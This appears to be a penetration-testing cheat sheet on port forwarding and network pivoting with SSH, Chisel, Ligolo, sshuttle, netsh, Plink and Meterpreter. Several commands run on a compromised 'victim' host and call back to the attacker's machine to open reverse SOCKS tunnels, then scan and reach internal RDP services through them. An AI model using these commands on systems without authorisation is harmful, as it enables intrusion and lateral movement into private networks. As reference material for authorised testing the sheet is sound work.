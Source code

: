 # SSH
| Flag | Description |
|---|---|
| -R | For **remote** Port Forwarding **<remote_port:local_address:local_port>** |
| -L | For **local** Port Forwarding **<local_port:remote_address:remote_port>** |
| -D | **Dynamic** Port Forwarding. Creates a socks proxy on localhost **<local_PORT>** |
| -N | Do not execute a remote command.  This is useful for just forwarding ports |

---
# Port Forwarding Examples


## [Chisel](https://github.com/jpillora/chisel)
First start the server on our machine. 
```bash
chisel server -p 8000 --reverse
```
And then from our victim.
```bash
./chisel client 10.10.10.3:8000 R:socks
```
Our machine now has a listener on port 1080 which is a SOCKS5 proxy through the chisel client. 

## [Ligolo](https://github.com/sysdream/ligolo)
On your attack server.
```bash
./bin/localrelay_linux_amd64
```
On the compromise host.
```bash
> ligolo_windows_amd64.exe -relayserver LOCALRELAYSERVER:5555
```
Once the connection is established, set the following parameters on the ProxyChains config file (On the attack server):
```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5     127.0.0.1 1080
```
Profit.
```bash 
$ proxychains nmap -sT 10.0.0.0/24 -p 80 -Pn -A
$ proxychains rdesktop 10.0.0.123
```
## SSH dynamic port forward 

```bash
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```
## SSH double pivots from one network to another
SOCKS proxy over two hops into internal network.
```bash
ssh -D 127.0.0.1:1080 -p 22 user1@IP1
Add socks4 127.0.0.1 1080 in /etc/proxychains.conf
proxychains ssh -D 127.0.0.1:1081 -p 22 user1@IP2
Add socks4 127.0.0.1 1081 in /etc/proxychains.conf
proxychains commands target
```
## SSH remote port forwarding
Forward a single port on the remote machine to a port on our box.
```bash
ssh -R 9000:localhost:8001 username@hostname
ssh -R 2222:localhost:22 username@hostname - SSH
ssh -R 2223:localhost:5902 username@hostname - VNC
autossh -M 20000 -f -R 2222:localhost:80 username@hostname
```

## SSH local port forward
```bash
ssh -L 9000:imgur.com:80 user@example.htb
```
## [SShuttle](https://sshuttle.readthedocs.io/en/stable/usage.html)

To sshuttle into an internal network and forward all traffic:
```bash
sshuttle -r user@10.10.10.10 10.1.1.0/24 -vNH -e 'ssh -i id_rsa'
```

## Windows netsh 

```powershell 
netsh interface portproxy add v4tov4 listenaddress=localaddress listenport=localport connectaddress=destaddress connectport=destport

netsh interface portproxy add v4tov4 listenport=3340 listenaddress=10.1.1.110 connectport=3389 connectaddress=10.1.1.110
```

## Plink

```powershell
plink -l root -pw toor ssh-server-ip -R 3390:127.0.0.1:3389    --> exposes the RDP port of the machine in the port 3390 of the SSH Server
plink -l root -pw mypassword 192.168.18.84 -R
plink -R [Port to forward to on your VPS]:localhost:[Port to forward on your local machine] [VPS IP]
```

## [Meterpreter portfwd](https://www.offensive-security.com/metasploit-unleashed/portfwd/)
 Forward remote port to local address.
```bash
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.141
kali > rdesktop 127.0.0.1:3389

or

portfwd list
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

or

run autoroute -s 192.168.57.0/24
use auxiliary/server/socks4a
```

## References
https://chryzsh.gitbooks.io/pentestbook/content/port_forwarding_and_tunneling.html

https://blog.ropnop.com/

https://www.toshellandback.com/2017/02/11/psexec/

https://blog.ropnop.com/practical-usage-of-ntlm-hashes/